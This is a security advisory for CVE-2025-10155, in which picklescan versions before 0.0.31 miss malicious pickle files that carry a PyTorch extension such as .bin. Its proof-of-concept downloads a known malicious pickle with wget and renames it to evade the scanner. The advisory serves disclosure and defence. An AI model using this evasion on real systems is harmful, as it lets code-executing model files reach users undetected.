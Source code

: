 ```yaml
---
description: PickleScan Bypass via File Extension Mismatch allows for evasion of malicious file detection.
title: PickleScan Bypass via File Extension Mismatch
date_published: "2025-09-21"
last_updated: "2025-09-21"
xray_id: XRAY-720936
vul_id: CVE-2025-10155
cvss: 9.3
severity: critical
discovered_by: David Cohen
type: vulnerability

---
```


## Summary

An Improper Input Validation vulnerability in the scanning logic of mmaitre314 picklescan versions up to and including 0.0.30 allows a remote attacker to bypass pickle files security checks by supplying a standard pickle file with a PyTorch-related file extension. When the pickle file incorrectly considered safe is loaded, it can lead to the execution of malicious code.

## Component

[picklescan](https://pypi.org/project/picklescan/)

## Affected versions

( , 0.0.31)

## Description

The vulnerability exists in the `scan_bytes` function, which prioritizes file extension checks. If a file has a PyTorch-related extension (e.g., `.bin`), the scanner attempts to parse it using the `scan_pytorch` function. When a standard pickle file is given such an extension, this PyTorch-specific parsing fails. Crucially, the scanner then returns an error without falling back to a standard pickle analysis (`scan_pickle_bytes`). This logic gap allows a malicious standard pickle file, disguised with a mismatched extension, to evade detection.

## PoC

The following steps demonstrate how to bypass the scanner.

```bash
# 1. Download a known malicious pickle file.
wget https://huggingface.co/kzanki/regular_model/resolve/main/model.pkl?download=true -O model.pkl

# 2. Scan the original file. PickleScan correctly detects the threat.
# Output will contain: dangerous import 'builtins exec' FOUND
picklescan -p model.pkl

# 3. Rename the file with a PyTorch-related extension.
cp model.pkl model.bin

# 4. Scan the renamed file.
# The scan will fail with a PyTorch parsing error and NOT detect the malicious payload.
picklescan -p model.bin
```

## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[GHSA](https://github.com/advisories/GHSA-jgw4-cr84-mqxg)
[NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-10155)
